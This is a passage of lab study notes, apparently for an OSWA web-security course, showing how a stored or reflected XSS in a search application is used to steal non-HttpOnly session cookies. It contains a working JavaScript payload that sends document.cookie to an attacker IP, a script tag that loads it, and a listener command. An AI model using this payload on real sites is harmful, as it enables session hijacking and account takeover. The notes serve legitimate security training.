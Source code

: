We'll use the script element payload and the search application for the remainder of the exploits. However, this payload can't be used for any other XSS styles that won't automatically execute JavaScript (for example, client XSS vulnerabilities that use _innerHTML_). Fortunately, there are other methods to get around this restriction.


-------

#### Stealing Session Cookies

- Shows that we are able to exploit the stealing of `Non-HTTPOnly` Session cookies only, the extraction of cookies is mitigated if `HTTPOnly` Cookies Requests are implemented
##### Payloads:
```js
┌──(root💀gobots)-[31Jul2024 20:53:19]-[/home/kali/SUT/OSWA/xss]
└─# vim xss2.js     

┌──(root💀gobots)-[31Jul2024 20:53:43]-[/home/kali/SUT/OSWA/xss]
└─# cat xss2.js                  
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.45.223/exfil?data=" + encodedCookie)


# set up python server
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

As shown above, we edited the xss2.js file to extract and encode the cookie and send a GET request back to our Kali VM with the encoded value. We'll paste the script payload into the Search application and submit the payload.

```js
<script src="http://192.168.45.223:80/xss2.js"></script>
```

This is an example of what the field that we enter the script in looks like
![[Pasted image 20240731180352.png]]
Submitted the script above and it got rendered
![[Pasted image 20240731174739.png]]
python3 server pulling it back
![[Pasted image 20240731174856.png]]
As shown in Listing 3, we edited the xss2.js file to extract and encode the cookie and send a GET request back to our Kali VM with the encoded value. We'll paste the script payload into the Search application and submit the payload.

![[Pasted image 20240731175651.png]]
Again, we'll "exploit" ourselves but since we don't have cookie set, the log in our HTTP server will be empty.
![[Pasted image 20240731175827.png]]
We can safely ignore the 404 error correctly stating that the "exfil" file doesn't exist because finding this log means that the data was exfiltrated.
Next, let's have the victim run this page. This time, we'll check the box titled "Use Non-HttpOnly Cookie" and then click _Render_.
![[Pasted image 20240731175929.png]]
The page loads normally, but if we check our HTTP log, we can find a cookie value that was exfiltrated!
![[Pasted image 20240731180109.png]]